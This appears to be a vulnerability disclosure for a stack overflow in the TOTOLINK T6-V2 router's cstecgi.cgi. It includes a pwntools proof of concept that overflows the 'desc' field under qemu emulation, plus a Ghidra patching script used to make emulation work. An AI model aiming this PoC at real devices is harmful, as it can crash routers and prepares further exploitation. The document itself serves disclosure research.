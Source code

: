 ## Overview

- The device's official website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=products&id=16&ids=33
- Firmware download website: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36

## Affected version

T6-V2 V4.1.9cu.5179_B20201015

## Vulnerability details

The vulnerability exists in the router's WEB component. `/web_cste/cgi-bin/cstecgi.cgi` `FUN_00412ef4` (at address 0x412ef4) gets the JSON parameter `desc`, but without checking its length, copies it directly to local variables in the stack, causing stack overflow: 

<img src="img/image-20220529095338996.png" alt="image-20220529095338996" style="zoom:67%;" />

When parameter `addEffect` is equal to `1`, the program will enter the if branch at line 54.

<img src="img/image-20220529095501694.png" alt="image-20220529095501694" style="zoom:67%;" />

In the red box, program copies `desc` to the stack buffer without checking its length.

## PoC



```python
from pwn import *
import json

data = {
    "topicurl": "setting/setIpPortFilterRules",
    "addEffect": "1",
    "ip": "192.168.1.1",
    "proto": "UDP",
    "sPort": "9999",
    "dPort": "9999",
    "desc": 'A'*0x400
}

data = json.dumps(data)
print(data)

argv = [
    "qemu-mipsel-static",
    "-L", "./root/",
    "-E", "CONTENT_LENGTH={}".format(len(data)),
    "-E", "REMOTE_ADDR=192.168.2.1",
    "./cstecgi.cgi"
]

a = process(argv=argv)
a.sendline(data.encode())

a.interactive()
```

<img src="img/image-20220529095742244.png" alt="image-20220529095742244" style="zoom:67%;" align = "left"/>

I use qemu-user to emulate the binary. However, the program calls `apmib_XXX` family functions. These functions fail and the program cannot continue to run. ld.so in the firmware doesn't support LD_PRELOAD, so I can't hook apmib_XXX family functions. For this reason, I patched the related functions in libapmib.so in /lib, such as apmib_init, apmib_get, apmib_set, and apmib_update functions. 
I use this ghidra script to do it.
```java
import ghidra.app.script.*;
import ghidra.program.model.address.*;
import ghidra.program.model.listing.*;
import ghidra.program.model.mem.*;
import java.util.*;
import java.io.*;

public class NopPatcher extends GhidraScript {

    class PatchScope implements Comparable<PatchScope> {
        Function fun;
        int beginAddr;
        int endAddr;

        PatchScope(String name, String begin, String end) {
            fun = getFunctionByName(name);
            beginAddr = (int)addressToFileOffset(getAddressFactory().getAddress(begin));
            endAddr = (int)addressToFileOffset(getAddressFactory().getAddress(end));
        }

        @Override
        public int compareTo(PatchScope candidate) {
            return this.beginAddr - candidate.beginAddr;
        }
        @Override
        public String toString() {
            return String.format("<%s, %x, %x>", fun.getName(), beginAddr, endAddr);
        }
    }

    ArrayList<PatchScope> scopes = new ArrayList<PatchScope>();

    @Override
    public void run() throws Exception {
		// String funname = "";
        // Function fun = getFunctionByName(funname);
        scopes.add(new PatchScope("apmib_set", "0x0018f24", "0x00194b0"));
        scopes.add(new PatchScope("apmib_get", "0x00185f0", "0x0018910"));
        scopes.add(new PatchScope("apmib_update", "0x00180c4", "0x00185b8"));
        scopes.add(new PatchScope("apmib_init", "0x001ae38", "0x001aef8"));

        Collections.sort(scopes);
        println(scopes.toString());

        File file = getProgramFile();
        println(file.toPath().toString());
        
        FileInputStream fileInputStream = new FileInputStream(file);
        byte[] fileContentBuffer = new byte[(int)file.length()];
        fileInputStream.read(fileContentBuffer);
        fileInputStream.close();

        for (PatchScope scope : scopes) {
            int begin = scope.beginAddr;
            int end = scope.endAddr;
            for (int i = begin; i < end; i++) {
                fileContentBuffer[i] = 0;
            }
            printf("patch function <%s> is done\n", scope.fun.getName());
        } 

        String newFilePath = file.getParent() + File.separator + "new-" + file.getName();
        println(newFilePath);
        FileOutputStream fileOutputStream = new FileOutputStream(newFilePath);
        fileOutputStream.write(fileContentBuffer);
        fileOutputStream.close();
    }

    private long addressToFileOffset(Address addr) {
        MemoryBlock[] memBlocks = getMemoryBlocks();
        MemoryBlock targetMemBlock = null;
        for (MemoryBlock mb : memBlocks) {
            if (mb.contains(addr)) {
                targetMemBlock = mb;
                break;
            }
        }
        if (targetMemBlock == null) {
            return 0;
        }
        List<MemoryBlockSourceInfo> memoryBlockSourceInfos = targetMemBlock.getSourceInfos();
        MemoryBlockSourceInfo targetSourceInfo = null;
        for (MemoryBlockSourceInfo sourceInfo : memoryBlockSourceInfos) {
            if (sourceInfo.contains(addr)) {
                targetSourceInfo = sourceInfo;
                break;
            }
        }
        if (targetSourceInfo == null) {
            return 0;
        }
        return targetSourceInfo.getFileBytesOffset(addr);
    }

    private Function getFunctionByName(String name) {
        Function fun = getFirstFunction();
        while (fun != null) {
            if (fun.getName().equals(name))
                return fun;
            fun = getFunctionAfter(fun);
        }
        return null;
    }
}

```
